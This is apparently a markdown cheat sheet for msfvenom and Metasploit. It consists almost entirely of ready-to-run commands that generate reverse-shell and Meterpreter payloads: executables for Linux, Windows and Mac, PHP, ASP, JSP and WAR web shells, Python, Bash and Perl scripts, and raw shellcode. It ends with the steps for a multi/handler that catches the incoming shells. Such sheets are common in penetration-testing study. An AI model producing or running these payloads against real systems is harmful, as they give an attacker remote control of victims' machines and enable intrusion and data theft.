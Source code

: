 # List payloads
```bash
msfvenom -l
```
# Binaries
## Linux

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```
## Windows

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```
## Mac

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

# Web Payloads
## PHP

```shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```
## JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```
## WAR

```bash 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```
# Scripting Payloads
## Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```
## Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```
## Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
# Shellcode
>For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

## Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Windows Based Shellcode

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
## Mac Based Shellcode

```shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

1. use exploit/multi/handler
2. set PAYLOAD <Payload name>
3. set LHOST <LHOST value>
4. set LPORT <LPORT value>
5. set ExitOnSession false
6. exploit -j -z
> Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r ‘
